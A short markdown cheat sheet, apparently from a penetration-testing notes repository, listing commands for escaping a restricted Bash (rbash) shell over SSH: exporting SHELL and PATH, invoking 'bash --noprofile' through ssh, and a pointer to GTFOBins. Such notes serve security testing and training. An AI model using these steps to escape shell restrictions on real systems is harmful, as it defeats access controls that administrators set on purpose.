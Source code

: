 # Breaking out of restricted Bash (rbash) CLI in SSH

## requirements: can run export

### 1) 

    export SHELL=/bin/bash

### 2) 

    export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin

### 3) 

    ssh USER@IP 'bash --noprofile'

### 4)

GTFOBins: https://gtfobins.github.io/

